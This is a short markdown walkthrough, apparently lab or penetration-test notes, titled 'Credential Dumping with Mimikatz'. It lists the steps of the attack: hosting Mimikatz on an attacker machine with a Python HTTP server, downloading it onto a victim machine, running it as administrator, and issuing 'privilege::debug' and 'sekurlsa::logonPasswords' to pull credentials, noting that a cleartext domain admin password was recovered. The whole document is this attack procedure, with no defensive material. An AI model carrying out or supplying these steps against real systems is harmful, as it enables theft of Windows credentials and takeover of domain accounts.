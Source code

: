 ## Credential Dumping with Mimikatz
- Open terminal in the directory containing the mimikatz x64 directory
- `python3 -m http.server 80`
- Open Edge on vicitim machine and navigate to attacker's IP
- Download all 4 files
- Run mimikatz as administrator, not system, on victim machine `mimikatz.exe`
- Set privilege mode to debug: `privilege::debug`
- List providers credentials: `sekurlsa::logonPasswords`
- Cleartext DA password:

  ![image](https://github.com/user-attachments/assets/0a6b58c3-27c7-40dc-9cdf-5ad3718f1efe)

- It is stored in the cred manager
